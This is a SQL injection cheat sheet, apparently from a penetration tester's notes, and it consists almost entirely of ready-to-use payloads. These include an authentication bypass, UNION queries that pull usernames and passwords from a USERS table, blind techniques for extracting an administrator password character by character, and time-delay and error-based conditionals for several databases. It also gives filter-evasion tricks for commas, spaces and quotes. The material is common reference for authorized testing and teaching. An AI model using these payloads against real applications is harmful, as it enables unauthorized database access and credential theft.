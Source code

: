 ### Basic authentication bypass
```
# Enter in the username field
' OR 1=1--
```
### Retrieving Database Version
```
# mysql / mariadb and Microsoft SQL
select @@version;

# postgreSQL
select version()

# oracle
select banner from v$version
select version from v$instance

```

### Determine the number of columns in a table
```
# INcrement order by one until an "out of range" error is received

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# If the number of NULLS does not match the number of columns, an error is received.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
### Retrieving values to fields
```
# if the number of columns and values are the same
' UNION SELECT username,password from USERS--

# if the number of columns and values are different
# Example: 3 columns 2 values
' UNION SELECT username,password,null from USERS--
# Columns must support the result type (e.g.. string column can only hold a string value)
```
### Blind SQL

```
# Identify password length
'AND (SELECT 'a' from users WHERE username='administrator' AND LENGTH(password)>1)='a

# Identify one password character at a time
# This example depends on differences in the return data.
'AND (SELECT ASCII(SUBSTRING((SELECT password from users WHERE username='administrator'),<character position>,1)))=<ascii decimal value>--
# For each substring character (1,1; then 2,1; 3,1; etc...) cycle through all the decimal values for printable characters (33-126)

# for oracle, use SUBSTR instead of SUBSTRING

#These conditional queries depend on triggering error messages.

#Oracle  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual  

#Microsoft  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END  

#PostgreSQL  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END  

#Working PostgreSQL Statement 
(SELECT CASE WHEN count((SELECT(SELECT CASE WHEN count(( SELECT 1 ))<>0 THEN pg_sleep(5) ELSE $$$$ END)))<>0 THEN true ELSE false END) --

#MySQL  
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')  

```
### Retrieving multiple values in a single column (String Concatenation)
```
# oracle
' UNION SELECT username || '~' || password from USERS--
# Microsoft
` UNION SELECT username+password FROM USERS--

```
### Bypassing Comma Restrictions
```
SELECT 1,2,3,4 FROM TABLE;    UNION SELECT * from ((SELECT 1 FROM TABLE)a JOIN (SELECT 2 FROM TABLE)b JOIN (SELECT 3 FROM TABLE)c JOIN (SELECT 4 FROM TABLE)d)--
```
### Bypassing Space Restrictions  
```
# mysql
SELECT/**/1;

# postgreSQL
/**/

```
### Bypassing Quote Restrictions  
```
# postgres  
SELECT 'TEST'; # example
SELECT $$TEST$$;
SELECT $TAG$TEST$TAG$;
SELECT CHR(84) || CHR(69) || CHR (83)  || CHR (84);
```
# Time Delays
```
# mysql / mariadb 
sleep(10)

# Microsoft SQL 
WAITFOR DELAY '0:0:10'

# postgreSQL
SELECT pg_sleep(10)

# oracle
dbms_pipe.receive_message(('a'),10)
```

### SQLi Reference Links
https://portswigger.net/web-security/sql-injection/cheat-sheet  
[Blind SQLi example code](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/development/python/custom_functions/bsqli.py)
